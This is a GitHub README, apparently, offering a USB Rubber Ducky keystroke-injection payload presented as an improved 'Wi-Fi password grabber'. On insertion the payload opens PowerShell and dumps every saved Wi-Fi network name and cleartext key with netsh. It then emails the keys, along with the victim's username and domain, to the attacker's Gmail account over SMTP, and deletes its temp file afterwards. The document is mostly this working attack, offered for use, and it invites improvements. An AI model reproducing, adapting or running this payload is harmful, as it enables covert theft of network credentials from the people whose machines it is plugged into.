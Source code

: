 ## Slightly improved version of [WiFi password grabber](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WiFi-password-grabber) by Siem

## Make sure to change "YOUREMAIL@gmail.com" with your G-Mail, and "PASSWORD" with your password

## Code:
```
REM Title       : Improved Wi-Fi Password Grabber
REM Author      : Jacob Collins
REM Version     : 3
REM Description : An improved version of the "WiFi password grabber" by Siem. It is a bit faster, and shorter.
REM DISCLAIMER  : Make sure to replace all instances of "YOUREMAIL@gmail.com" (without quotes), with your actual e-mail (MUST BE G-MAIL!), and "PASSWORD" (without quotes) with your password.
REM DISCLAIMER  : Make sure to enable "Allow less secure apps". Here is the link: https://myaccount.google.com/lesssecureapps
DELAY 1000
REM --------> Open the run dialog
GUI r
DELAY 500
REM --------> Open Powershell straight away, allows us to type the command out as its queueing. Close when Powershell exits.
STRING cmd /c powershell && exit
DELAY 500
Rem --------> Long-ass command. Gets the SSID and password off each saved WiFi network, formats a bit, sends it to YOUREMAIL@gmail.com, through the account of YOUREMAIL@gmail.com
STRING $out=((netsh wlan show profile|findstr "All User Profile") -match "All User Profile").split(":");$i=0;ForEach($line in $out){if($i -eq "1") {(netsh wlan show profile $line.substring(1) Key=clear|findstr /I "SSID Content"|findstr /V "SSIDs") -replace "[^`"]$","`r`n">>a;$i++}else{$i=1}};$SMTPServer="smtp.gmail.com";$SMTPInfo=New-Object Net.Mail.SmtpClient($SmtpServer,587);$SMTPInfo.EnableSsl=$true;$SMTPInfo.Credentials=New-Object System.Net.NetworkCredential("YOUREMAIL@gmail.com","PASSWORD");$ReportEmail=New-Object System.Net.Mail.MailMessage;$ReportEmail.From="YOUREMAIL@gmail.com";$ReportEmail.To.Add("YOUREMAIL@gmail.com");$ReportEmail.Subject=($env:UserName+"@"+$env:UserDomain);$ReportEmail.Body=(Get-Content a|out-string);$SMTPInfo.Send($ReportEmail);rm a;exit
```
## Suggestions
Please feel free to leave any suggestions, like code minimization, fixes etc.